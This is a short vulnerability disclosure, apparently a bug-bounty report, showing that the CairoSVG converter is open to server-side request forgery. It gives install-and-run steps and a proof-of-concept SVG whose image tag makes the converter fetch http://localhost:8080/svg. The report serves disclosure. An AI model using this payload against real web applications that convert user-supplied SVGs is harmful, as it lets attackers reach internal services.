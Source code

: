 # Description

 `CairoSVG` is an SVG converter based on Cairo. It can export SVG files to PDF, EPS, PS, and PNG files. **useing this package in webapps can be lead to** `SSRF` **attacks**

# Steps To Reproduce

  0) `$ pip3 install cairosvg`
  1) `$ cairosvg payload.svg`
  1) creat a payload svg or use : [rc3.svg](https://drive.google.com/file/d/1jGhUXepvOV9bs_aaCThSmqloY_C1Nsj4/view?usp=sharing)

  rc3.svg
  ```
  <?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" style="overflow: hidden; position: relative;" width="300" height="200">
<image x="10" y="10" width="276" height="110" xlink:href="http://localhost:8080/svg" stroke-width="1" id="image3204" />
<rect x="0" y="150" height="10" width="300" style="fill: black"/>
</svg>

  ```
# POC

[gdrive](https://drive.google.com/file/d/1VqfAgldmtY-qrgHRfizVvAH2oIFZVT-q/view?usp=sharing)

## 💥 Impact

SSRF 

